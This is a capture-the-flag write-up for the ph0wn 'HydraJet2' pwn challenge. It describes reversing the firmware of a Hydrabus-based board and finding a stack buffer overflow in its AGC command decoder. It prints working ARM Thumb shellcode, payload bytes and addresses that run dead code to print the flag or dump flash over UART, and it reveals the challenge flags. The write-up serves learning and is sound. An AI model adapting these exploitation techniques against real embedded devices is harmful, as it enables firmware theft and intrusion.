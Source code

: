 # HydraJet2 by Phil

This challenge was created by *Phil*.

## Description

The challenge decription is : 

```
Pico is a space exploration enthusiast.

He acquired an AGC module from an Apollo rocket and has started reverse engineering it. To aid in his endeavor, he forked the Hydrabus project. 
But Pico never takes the bus, he only travels with his personal jet plane, so he renamed the project Hydrajet.

Pico is particularly intrigued by the command aspect of the AGC. He has discovered a serial link between the keyboard and the computing unit, noting the use of a serial connection. Consequently, he implemented an AGC command decoder. The question remains: did he do it correctly? Get the flag.
```

CTFd tells it's a "Pwn" challenge, and it needs one HydraJet, serial module and ST-Link interface.
This aimed to an exploiting on the HydraJet.

At the first level we’ve seen that 2 flags are available in the flash:
```
$ strings hydrafw.elf| grep ph0wn{         
agc decoder (BETA)          ph0wn{Stage1Stage1Stage1.}
ph0wn{Stage2Stage2Stage2Stage2Stage2Stage2Stage2Stage2}
```

The first idea is to connect the ST-Link (pins SWD_DEBUG) to the HydraJet and try to dump the flash. But, bad luck, the STM32 is in **RDP1** mode. This means you can’t read the flag, but the good thing is to see the SWD port isn’t closed. So, the RAM can be dumped and can give you some useful information later.

Now it’s time to open the firmware with a reverse engineering tools and have a look inside. The first step is to locate the string `ph0wn{Stage2Stage2Stage2Stage2Stage2Stage2Stage2Stage2}`. XREF it gives you an interesting function “void FUN_0802c270(int param_1)”. The goal of this function is to read some bytes from a serial port and decode them. To get out from this active polling function, you need to press the “user” button located on HydraJet's side.
So, you need to hook a serial module on the HydraJet (pins PA9, PA10, GND) and try to interact with it.
Playing a little with `decode-agc` function will let you crash easily the HydraJet with a long string. A classic buffer overflow. 
The second way to identify the bug is to have a look at the buffer size and the call to the `readbyte()` function in the reversed code: there is a len mismatch with 40 and 0x40.

At this point, having a better idea of the memory mapping is mandatory. You need to connect the ST-Link again and fill the `decode-agc` buffer with a few chars you’ll expect to find in the memory dump. And try to make a memory map from the zone:

![](./images/hydrajet-stack.png)


Now, you have a payload address and the return address to smash. It’s time to think on the easiest way to get out the flag. 

The flag’s `printf()` is ready, but could not be reached, because 0x666 bytes are impossible to be read from UART. And, second problem, as HydraBus uses a high-level OS (ChibiOS) smashing the stack has more consequences. The `printf()` function has a sort of descriptor (a stdin/stdout like), and smashing the local stack will stop the `printf()` to print any char.

So, you need to preserve the stack pointer at the very first beginning of your payload.
To summarize, the important address:

- 0x20015AE4 :	The exploit
- 0x0802c2d8 :	The printf(‘flag’) code
- 0x0802c35a :	pop pc who will launch the exploit

The following shellcode will do the job:
```
$ cat printfcode.S    
.thumb

start:
    sub sp, #0x48               // add exacly the same value as FUN_0802c270 (push + 0x44 = 0x48)
    ldr r0, printf_adr          // load the @ of the printf('flag') deadcode
    bx r0                       // jump to the printf

    nop                         // 2 bytes lost to align the @ bellow on 32 bits memory position
printf_adr:
.word 0x0802c2d9
```

This gives the following payload:
```
92 B0 01 48 00 47 C0 46 D9 C2 02 08
```

And the full payload, preserving stuff in the stack + the good return address:

![Shellcode](./images/hydrajet-printfcode.png)


The way to launch the shellcode is to run the `decode-agc` feature, send the payload and press the user button. The HydraJet will print on your control menu the flag and stop.

A second way to solve this challenge is to use a more general-purpose solution: a dump code.
This old ancient art has been taught to me in the 2000s by a guy from Switzerland called Balda and this code is still working now days. The idea is to use the UART to get the bytes out of the STM32.

All addresses are the same and the stack need to be preserved too, but for another reason than preserve the full context as in the first solution. The HydraBus is using a high-level OS and some interrupt occurs. If you don’t correct the stack before sending the very first byte, the payload is overwrite and a crash occur. Here is the payload:

```
$ cat dumpcode.S      
.thumb

start:
    sub sp, #0x50               // protect the current code from interruption
    mov r2, #0x80               // TXE bit
    ldr r0, flash_adr           // @ to dump
    ldr r1, uart_base_adr       // uart1 base @

.send_loop:
    ldrb r3, [r0]               // load flash value from r0 into r3
    add r0, #1                  // next byte

    strb r3, [r1, #7]           // send current byte  USAR_DR

.wait_tx:
    ldr  r3, [r1, #0]           // get status register  USAR_SR
    and  r3, r3, r2             // keep only TXE bit
    beq  .wait_tx               // tx fifo empty?
    b .send_loop                // infinite loop to next byte


    nop                         // 2 bytes lost to align the 2 @ bellow on 32 bits memory position
flash_adr:
.word 0x0804a978

uart_base_adr:
.word 0x40011000
```

And it reveal the flag: `ph0wn{You_d_never_imagine_using_an_Hydrabus_like_this!}`


\newpage
